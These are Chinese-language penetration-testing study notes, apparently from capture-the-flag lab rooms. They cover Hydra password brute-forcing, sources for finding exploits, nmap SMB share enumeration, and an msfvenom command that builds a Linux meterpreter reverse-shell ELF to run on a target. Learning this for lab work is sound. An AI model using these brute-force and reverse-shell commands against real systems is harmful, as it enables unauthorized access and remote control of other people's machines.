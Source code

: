 Hydra 仍然是一个非常高效的工具，您可以从终端启动它来尝试不同的密码。我们在下表中总结了其主要选项。  

hydra -l username -P wordlist.txt server service

选项|	解释
|-|-|
-l username	|提供登录名
-P WordList.txt|	指定要使用的密码列表
server| 设置要攻击的服务器地址
service|	设置要攻击的服务 
-s PORT	|在非默认服务端口号的情况下使用
-V或者-vV	|显示正在尝试的用户名和密码组合
-d	|如果详细输出没有帮助，则显示调试输出

## 漏洞利用

自动化漏洞扫描工具：Nessus  
漏洞查询：
- NVD
- Exploit-DB
- Rapid7: 提供如何使用metasploit复现漏洞的方法
- GitHub: 安全研究人员在 GitHub 上存储和共享 PoC（概念验证）
- Searchsploit: Exploit-DB的离线版本

exploit-db的脚本大多都是错误的，需要根据自己的情况改进，可以作为参考写到自己的payload里面。

## metasploit

### msfvenom

 Linux 可执行和可链接格式 (elf)
``````
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf  
``````
.elf 格式与 Windows 中的 .exe 格式相当。这些是 Linux 的可执行文件。但是，您可能仍然需要确保它们在目标计算机上具有可执行权限。例如，一旦目标计算机上有 shell.elf 文件，请使用 chmod +x shell.elf 命令授予可执行权限。完成后，您可以通过在目标计算机命令行上键入 ./shell.elf 来运行此文件。  

## kenobi-smb共享

Nmap能够自动运行各种网络任务。有一个脚本可以枚举共享！  
``````
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
``````
smb有139和445两个端口,139端口是早期使用netbios时使用,后来使用ssh堆栈在445端口运行smb。  

## 钢山

反向图像搜索


## linux权限提升
